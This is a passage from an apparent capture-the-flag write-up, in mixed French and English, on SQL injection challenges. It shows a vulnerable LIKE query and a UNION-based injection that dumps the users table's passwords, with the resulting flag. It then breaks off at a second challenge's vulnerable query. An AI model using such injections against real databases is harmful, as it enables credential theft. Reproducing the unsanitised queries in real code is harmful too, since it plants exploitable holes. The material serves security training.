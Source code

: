 
### `First exfiltration`

**Consigne :**\
Time to recover some data
Bypassing a password check is nice, but being able to read arbitrary data is better.

> **Goal: recover the admin password**

**Code présent sur la page :**

```sql
SELECT 
  username, email
FROM users 
WHERE email LIKE '%$email%' 
LIMIT 10;
```

**Injection :**

```sql
$email = x'='x' UNION SELECT id, password FROM users'
```

**Résultat :**

```json
[
  {
    "username": 1,
    "email": "FLAG{Th1s_is_th3_4dm1n_p4ssw0rd}"
  },

  [...]
]
```

> FLAG{Th1s_is_th3_4dm1n_p4ssw0rd}

**Explication de l'injection :**\
Utilisation de la commande `UNION` permettant de mettre bout à bout le résultat de plusieurs requête. Ainsi ça nous permet de faire passer un requête de demande d'id et de password sur la table users.

---

### `No LIMIT`

**Consigne :**\
This query should give us the any password, but the limit 0 prevent it.

> **Goal: recover the admin password**

**Code présent sur la page :**

```sql
SELECT password FROM users WHERE username = '$name' LIMIT 0;
```
